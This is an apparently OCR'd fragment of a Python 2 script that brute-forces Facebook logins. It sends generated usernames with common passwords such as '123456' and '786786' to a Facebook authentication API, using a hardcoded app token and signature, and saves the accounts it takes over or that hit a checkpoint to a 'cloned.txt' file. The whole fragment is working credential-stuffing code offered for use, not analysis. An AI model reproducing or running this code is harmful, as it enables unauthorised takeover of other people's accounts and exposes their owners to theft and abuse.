                             data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;32m[RK-OK]  ' + k + c + user + '  |  ' + pass3
                                okb = open('save/cloned.txt', 'a')
                                okb.write(k+c+user+pass3+'\n')
                                okb.close()
                                oks.append(c+user+pass3)
                            else:
                                if 'www.facebook.com' in q['error_msg']:
                                    print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass3 
                                    cps = open('save/cloned.txt', 'a')
                                    cps.write(k+c+user+pass3+'\n')
                                    cps.close()
                                    cpb.append(c+user+pass3)
                                else:
                                    pass4="123456"
                                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                    q = json.load(data)
                                    if 'access_token' in q:
                                        print '\x1b[1;32m[RK-OK]  ' + k + c + user + '  |  ' + pass4 
                                        okb = open('save/cloned.txt', 'a')
                                        okb.write(k+c+user+pass4+'\n')
                                        okb.close()
                                        oks.append(c+user+pass4)
                                    else:
                                        if 'www.facebook.com' in q['error_msg']:
                                            print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass4
                                            cps = open('save/cloned.txt', 'a')
                                            cps.write(k+c+user+pass4+'\n')
                                            cps.close()
                                            cpb.append(c+user+pass4)
                                        else:
                                            pass5="786786"
                                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                            q = json.load(data)
                                            if 'access_token' in q:
                                                print '\x1b[1;32m[RK-OK]  ' + k + c + user + '  |  ' + pass5
                                                okb = open('save/cloned.txt', 'a')
                                                okb.write(k+c+user+pass5+'\n')
                                                okb.close()
                                                oks.append(c+user+pass5)
                                            else:
                                                if 'www.facebook.com' in q['error_msg']:
                                                    print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass5 
                                                    cps = open('save/cloned.txt', 'a')
                                                    cps.write(k+c+user+pass5+'\n')
                                                    cps.close()
                                                    cpb.append(c+user+pass5)
                                                                                                                                                                                                                